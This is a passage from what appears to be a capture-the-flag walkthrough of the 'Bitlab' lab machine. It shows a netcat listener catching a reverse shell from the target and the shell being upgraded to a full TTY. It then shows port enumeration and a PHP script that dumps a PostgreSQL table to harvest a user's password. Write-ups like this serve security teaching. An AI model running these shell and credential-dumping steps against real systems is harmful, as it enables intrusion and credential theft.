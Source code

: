     root@kali:~/files# nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.114.
    Ncat: Connection from 10.10.10.114:36862.
    /bin/sh: 0: can't access tty; job control turned off
    $

Getting a full TTY with tab auto compilation.

    $ python -c 'import pty;pty.spawn("/bin/bash")'
    www-data@bitlab:/var/www/html/profile$ ^Z
    [1]+  Stopped                 nc -lvnp 9001
    root@kali:~/files# stty raw -echo
    root@kali:~/files# nc -lvnp 9001 # Enterting fg Here

    www-data@bitlab:/var/www/html/profile$ who
    who     whoami

# Privileges Escelation

Bitlab had unintended way from www-data to root that I did on release time. But I will do both but the intended one first.

## www-data to Clave

Looking at listening ports.

    www-data@bitlab:/var/www/html$ netstat -ano|grep LIST                                                                                                     
    tcp        0      0 127.0.0.1:3022          0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 172.17.0.1:3000         0.0.0.0:*               LISTEN      off (0.00/0/0)
    tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      off (0.00/0/0)
    ...(Snip)...

So there was a PostgreSQL running on port 5432 but psql wasnt installed.

Earlier I found a PHP code snippet about connecting to database. I used it like it was just added a print to fetched data.

    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles passwo
    rd=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");
    $arr = pg_fetch_all($result);
    print_r($arr);
    ?>

Running it got me credentials for Clave.

    www-data@bitlab:/dev/shm$ php postgres.php                                          
    Array
    (
        [0] => Array
            (
                [id] => 1
                [username] => clave
                [password] => c3NoLXN0cjBuZy1wQHNz==
            )
